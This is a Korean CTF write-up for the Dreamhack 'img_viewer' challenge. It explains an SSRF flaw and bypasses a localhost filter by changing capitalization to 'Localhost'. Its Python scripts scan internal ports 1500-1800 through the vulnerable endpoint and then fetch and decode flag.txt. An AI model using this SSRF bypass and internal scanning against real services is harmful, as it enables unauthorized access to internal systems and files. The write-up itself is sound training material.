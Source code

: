 ```python
local_server = http.server.HTTPServer(
    (local_host, local_port), http.server.SimpleHTTPRequestHandler
)
```

`img_viewer`의 해당 하는 코드로 `url`이라는 변수는 통해 POST 메소드로 받고 있음을 알 수 있고, `url` 파라미터의 첫번째 값이 **/**면 `url = "http://localhost:8000" + url`이 된다.

즉, Dreamhack 로고 이미지를 불러 오는 경우 `url = "http://localhost:8000" + /static/dream.png`가 되는 것이다.

위 경우가 아니면 입력 값에 **localhost, 127.0.0.1**가 포함 된 경우 `error.png`를 보여주게 된다.

또한, 로컬 서버를 1500~1800 포트 사이에서 실행하고 있다. 

필터링 우회를 위해 **Localhost**를 이용할 것이고, 스크립트 작성에 용이하기 위해 잘못된 포트를 입력했을 때 어떠한 출력이 존재하는지 확인해보겠습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/216909103-648fc3b4-c60e-45e4-b929-285ccdd9def1.png" width = 360> 
</p>

이미지를 출력하는데 base64 인코딩 된 값을 출력하기에 `iVBORw0K`가 포함된 response를 제외하면 될 것으로 보인다.

```python
import requests
from tqdm import tqdm

url = 'http://host3.dreamhack.games:12312/img_viewer'
ERROR = 'iVBORw0K'

def find_port():
    for port in tqdm(range(1500, 1801)):
        data = {
            'url' : f'http://Localhost:{port}'
        }
        r = requests.post(url, data = data)

        if ERROR not in r.text:
            print(f'[*] PORT == {port}')
            return port

if __name__ == '__main__':
    port = find_port()
```

해당 스크립트로 에러 값이 아닌 곳이 현재 열려있는 로컬 서버의 포트가 됩니다.

이후 문제에서 말해준 경로를 통해서 FLAG를 읽어오면 된다.

```python
def find_flag(port):
    data = {
        'url' : f'http://Localhost:{port}/flag.txt'
    }
    r = requests.post(url, data = data)
    first_idx = r.text.find('<img src="data:image/png;base64, ') + len('<img src="data:image/png;base64, ')
    end_idx = r.text.find('"', first_idx) + 1
    flag = base64.b64decode(r.text[first_idx:end_idx]).decode('utf-8')
    print(f'[*] FLAG = {flag}')
```

base64 인코딩되는 값의 인덱스를 받아와 디코딩하는 방식으로 진행하면 **FLAG**가 정상적으로 나오는 것을 알 수 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/216915224-0e360c80-c489-4b7e-ab29-7d7a8d620acb.png" width = 460> 
</p>